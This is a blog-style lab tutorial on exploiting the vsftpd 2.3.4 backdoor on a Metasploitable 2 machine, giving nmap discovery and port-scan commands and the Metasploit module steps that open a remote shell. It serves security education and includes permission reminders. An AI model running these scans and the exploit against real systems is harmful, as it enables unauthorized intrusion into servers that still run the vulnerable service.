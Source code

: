 ```yaml
---

title: "Exploiting vsftpd 2.3.4 on Metasploitable 2 using Metasploit" classes: wide header: teaser: /assets/images/metasploit/vulnerabilidade vsftpd 2.3.4.jpeg overlay\_image: /assets/images/metasploit/logo.png overlay\_filter: 0.5 ribbon: Red excerpt: "A step-by-step guide to exploiting the vsftpd 2.3.4 backdoor on Metasploitable 2 using Kali Linux and Metasploit." description: "A step-by-step guide to exploiting the vsftpd 2.3.4 backdoor on Metasploitable 2 using Kali Linux and Metasploit." categories:

- Exploitation
- Penetration Testing tags:
- Metasploit
- Ethical Hacking
- Nmap
- Cybersecurity toc: true toc\_sticky: true toc\_label: "On This Blog" toc\_icon: "biohazard"

---
```


# Intro

In this post, I’ll show how to **find, analyze, and exploit a vulnerability in vsftpd 2.3.4** (an old FTP server with a backdoor) using **Kali Linux** and **Metasploitable 2**. This tutorial is for **educational purposes only** and should only be used in a controlled lab environment. Never test without permission.

---

## **🔍 Step 1: Find the Target’s IP**

First, we need to identify the IP address of our **Metasploitable 2** machine. Run:

```bash
ip a  # On Linux
ifconfig  # Alternative command
```

On **Kali**, use:

```bash
nmap -sn 192.168.93.0/24
```

This will **list all devices** on the network, helping us locate Metasploitable 2 (e.g., **192.168.93.129**).

---

## **🔎 Step 2: Scan for Open Ports**

Once we have the target's IP, let’s **scan for open services**:

```bash
nmap -sV -p- 192.168.93.129
```

🔹 `-sV`: Detects service versions\
🔹 `-p-`: Scans **all** 65,535 ports

🚀 **Result:** Port **21 (FTP)** is open, running **vsftpd 2.3.4**, which is known to have a **backdoor**.

---

## **📌 Step 3: Exploit vsftpd 2.3.4**

Now, we use **Metasploit** to exploit the vulnerable service:

```bash
msfconsole
```

Select the exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Check the required options:

```bash
show options
```

Set the **target IP (RHOSTS)** and the **target port (RPORT)**:

```bash
set RHOSTS 192.168.93.129
set RPORT 21
```

Run the exploit:

```bash
exploit
```

If successful, this gives us a **remote shell** on the target! 🎯

---

## **🖥️ Step 4: What Can We Do With the Shell?**

Now that we have access, we can: ✔️ List files: `ls`\
✔️ Check users: `whoami`\
✔️ Read system info: `uname -a`

This is a basic **proof of concept (PoC)** of how an attacker can exploit outdated services.

---

## **⚠️ Ethical Hacking Reminder**

🔹 This tutorial is **for educational purposes only**.\
🔹 Always have **explicit permission** before testing security.\
🔹 Keep your systems **updated** to avoid these vulnerabilities.

---

## **📚 More Resources**

🔗 Metasploitable 2: [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)\
🔗 Metasploit Docs: [https://docs.metasploit.com/](https://docs.metasploit.com/)\
🔗 Nmap: [https://nmap.org/](https://nmap.org/)

Would you like to see more tutorials like this? Let me know in the comments! 🚀🔍 #CyberSecurity #EthicalHacking #Metasploit #PenTesting